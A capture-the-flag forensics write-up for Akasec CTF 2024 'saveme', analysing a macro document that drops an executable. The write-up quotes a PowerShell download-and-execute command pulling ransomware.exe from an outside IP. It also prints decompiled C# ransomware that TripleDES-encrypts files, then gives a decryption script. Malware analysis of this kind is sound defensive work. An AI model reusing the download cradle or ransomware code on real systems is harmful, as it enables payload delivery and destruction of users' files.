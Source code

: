 # Akasec CTF 2024 – saveme

- **Category:** Forensics
- **Points:** 100
- **Solves:** 52

## Challenge

> You know what to do. Get after it!
>
> Author: d33znu75
>
> Attachment: [saveme-chall.zip](handout/saveme-chall.zip)

## Solution

Upon extracting the zip file, we get these files,

```
└── saveme-chall
    ├── download (1).jpeg
    ├── download (2).jpeg
    ├── download (3).jpeg
    ├── download.jpeg
    ├── fuckmicrosoft.docm
    ├── images (144).png
    ├── images (1).jpeg
    ├── images (2).jpeg
    ├── images (3).jpeg
    ├── images (4).jpeg
    └── images.jpeg
```

Upon opening the `docm` file, we can see there is some text hidden by changing the font color to white. We can select all of it, and put it into [CyberChef](https://gchq.github.io/CyberChef), where we can turn it into an executable after using the `From Hex` operation.

When trying to run the [executable](solution/flag.exe), we can see that a PowerShell window opens and closes very fast, but I was not able to make out what it was doing. After doing some research, I found a tool called [speakeasy](https://github.com/mandiant/speakeasy) which is a Windows kernel emulator, used commonly for malware analysis.

```
└─$ speakeasy -t flag.exe
* exec: module_entry
0x4020c3: 'kernel32.WinExec("powershell "IEX(New-Object Net.webClient).downloadString(\'http://20.81.130.178:8080/ransomware.exe\')"", 0x1)' -> 0x20
0x4020cf: 'kernel32.GetVersion()' -> 0x1db10106
0x4020e2: 'kernel32.ExitProcess(0x0)' -> 0x0
* Finished emulating
```

From the output, we can see that the `.exe` file is downloading a file from `http://20.81.130.178:8080/ransomware.exe`. The [file](solution/ransomware.exe) is a .NET binary, so we can put it in ILspy to decompile it. The decompiled and deobfuscated code is as follows,

```csharp
// ransomware, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null
// b
using System;
using System.IO;
using System.Security.Cryptography;
using System.Text;

internal class Ransomware {
  private static void EncryptFiles(string[] args) {
    string key = "Lp3jXluuW799rnu4";
    byte[] iv = new byte[8] {
      0,
      1,
      2,
      3,
      4,
      5,
      6,
      7
    };

    string currentDirectory = Directory.GetCurrentDirectory();
    string[] files = Directory.GetFiles(currentDirectory, "*.*");

    foreach(string filePath in files) {
      try {
        byte[] fileContent = File.ReadAllBytes(filePath);

        using(TripleDESCryptoServiceProvider tripleDES = new TripleDESCryptoServiceProvider()) {
          tripleDES.Key = Encoding.ASCII.GetBytes(key);
          tripleDES.IV = iv;

          byte[] encryptedContent = Encrypt(fileContent, tripleDES);

          File.WriteAllBytes(filePath, encryptedContent);

          Console.WriteLine("Encrypted: " + filePath);
        }
      } catch (Exception ex) {
        Console.WriteLine("Error: " + ex.Message);
      }
    }

    Console.ReadLine();
  }

  private static byte[] Encrypt(byte[] data, TripleDESCryptoServiceProvider tripleDES) {
    using(MemoryStream memoryStream = new MemoryStream())
    using(CryptoStream cryptoStream = new CryptoStream(memoryStream, tripleDES.CreateEncryptor(), CryptoStreamMode.Write)) {
      cryptoStream.Write(data, 0, data.Length);
      cryptoStream.FlushFinalBlock();
      return memoryStream.ToArray();
    }
  }
}
```

From the code, we can see that the executable is encrypting all the files in the current directory using TripleDES with the key `Lp3jXluuW799rnu4`. So, here is a simple python script to decrypt the files.

```python
import os

from Crypto.Cipher import DES3
from Crypto.Util.Padding import unpad

ENCRYPTION_KEY = b"Lp3jXluuW799rnu4"
INITIALIZATION_VECTOR = bytearray([0, 1, 2, 3, 4, 5, 6, 7])
ALLOWED_EXTENSIONS = {".jpg", ".jpeg", ".png"}


def decrypt_files_in_directory(directory, key, iv, allowed_extensions):
    for file in os.listdir(directory):
        file_path = os.path.join(directory, file)
        if (
            os.path.isfile(file_path)
            and os.path.splitext(file)[1].lower() in allowed_extensions
        ):
            try:
                with open(file_path, "rb") as encrypted_file:
                    encrypted_data = encrypted_file.read()

                cipher = DES3.new(key, DES3.MODE_CBC, iv)
                decrypted_data = unpad(cipher.decrypt(encrypted_data), DES3.block_size)

                decrypted_file_path = (
                    os.path.splitext(file_path)[0]
                    + "_decrypted"
                    + os.path.splitext(file_path)[1]
                )
                with open(decrypted_file_path, "wb") as decrypted_file:
                    decrypted_file.write(decrypted_data)

                print(f"Decrypted {file}")
            except Exception as e:
                print(f"Failed to decrypt {file}: {e}")


if __name__ == "__main__":
    input_directory = os.getcwd()
    decrypt_files_in_directory(
        input_directory, ENCRYPTION_KEY, INITIALIZATION_VECTOR, ALLOWED_EXTENSIONS
    )
```

After running the script, we can see that the images have been decrypted, and the flag is `AKASEC{F_MiCRoSft_777}`, found in `images (144)_decrypted.png`.

![images (144)_decrypted.png](<solution/images%20(144)_decrypted.png>)
